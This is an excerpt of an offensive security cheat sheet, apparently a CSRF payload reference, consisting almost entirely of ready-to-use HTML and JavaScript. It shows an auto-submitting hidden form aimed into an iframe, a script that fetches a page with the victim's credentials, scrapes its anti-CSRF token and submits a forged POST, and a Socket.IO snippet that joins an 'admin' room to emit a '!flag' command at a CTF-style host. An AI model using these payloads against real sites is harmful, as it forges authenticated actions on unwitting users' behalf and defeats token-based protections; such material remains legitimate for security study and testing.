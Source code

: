 ```markup
<iframe id="frame2" name="frame2" 
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>
<body onload="document.forms[0].submit()">
<form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
  <input type="text" name="username" value="z">
  <input type="checkbox" name="status" checked="">        
  <input id="token" type="hidden" name="token" value="0000" />
  <button type="submit">Submit</button>
</form>
```

#### **POSTSteal CSRF token with Ajax and send a post with a form**

```markup
<body onload="getData()">

<form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data">
  <input type="hidden" name="username" value="root"/>
  <input type="hidden" name="status" value="on"/>
  <input type="hidden" id="findtoken" name="token" value=""/>
  <input type="submit" value="valider"/>
</form>

<script>
var x = new XMLHttpRequest();
function getData() {
  x.withCredentials = true;
  x.open("GET","http://google.com?param=VALUE",true);
  x.send(null); 
}
x.onreadystatechange = function() {
  if (x.readyState == XMLHttpRequest.DONE) {
    var token = x.responseText.match(/name="token" value="(.+)"/)[1];
    document.getElementById("findtoken").value = token;
    document.getElementById("form").submit();
  }
}
</script>
```

#### CSRF with Socket.IO

```markup
<script src="https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js"></script>
<script>
let socket = io('http://six.jh2i.com:50022/test');

const username = 'admin'

socket.on('connect', () => {
    console.log('connected!');
    socket.emit('join', {
        room: username
    });
  socket.emit('my_room_event', {
      data: '!flag',
      room: username
  })

});
</script>
```